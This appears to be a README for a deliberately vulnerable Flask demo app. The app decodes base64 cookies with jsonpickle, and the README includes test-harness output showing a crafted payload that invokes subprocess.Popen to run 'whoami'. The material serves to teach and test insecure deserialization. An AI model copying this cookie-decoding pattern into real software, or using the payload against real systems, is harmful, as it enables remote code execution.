 # flask-json-pickle
This is a vulnerable Flask web application that calls ```loads()``` from **jsonpickle** on untrusted data through HTTP cookies.  This vulnerability allows an attacker to create a malicious pickle, encode it with **jsonpickle**, and send it to the web application to exploit the vulnerability.

```
@app.route('/')
def index():
    if request.cookies.get("username"):
        u = jsonpickle.decode(base64.b64decode(request.cookies.get("username")))
        return render_template("index.html", username=u.username)
    else:
        w = redirect("/whoami")
        response = current_app.make_response(w)
        u = User("Guest")
        encoded = base64.b64encode(jsonpickle.encode(u))
        response.set_cookie("username", value=encoded)
        return response


@app.route('/whoami')
def whoami():
    user = jsonpickle.decode(base64.b64decode(request.cookies.get("username")))
    username = user.username
    return render_template("whoami.html", username=username)
```

Also included within this repo, is a test harness for **jsonpickle**.  The code demonstrates the ability to create a malicious pickle and encode it with **jsonpickle**.  It also includes a callback function which can trace every 'call' within the program.  This is used to inspect whether or not **jsonpickle** calls ```loads()``` on the pickled object after it is decoded.

```
*] Test: {"py/object": "__main__.User", "user": "rotlogix"}
[*] Base64 Encoded: eyJweS9vYmplY3QiOiAiX19tYWluX18uU2hlbGwiLCAicHkvcmVkdWNlIjogW3sicHkvdHlwZSI6ICJzdWJwcm9jZXNzLlBvcGVuIn0sIHsicHkvdHVwbGUiOiBbIndob2FtaSJdfSwgbnVsbCwgbnVsbCwgbnVsbF19
[*] JSON encoded Pickle: {"py/object": "__main__.Shell", "py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": ["whoami"]}, null, null, null]}
[*] Reconstructing object from JSON Pickle ...
[*] Shellcode:
 ccopy_reg
_reconstructor
p0
(csubprocess
Popen
p1
c__builtin__
object
p2
Ntp3
Rp4
(dp5
S'_child_created'
p6
I01
sS'returncode'
p7
NsS'stdout'
p8
NsS'stdin'
p9
NsS'pid'
p10
I68312
sS'stderr'
p11
NsS'universal_newlines'
p12
I00
sb.
[*] Result ...
rotlogix
```
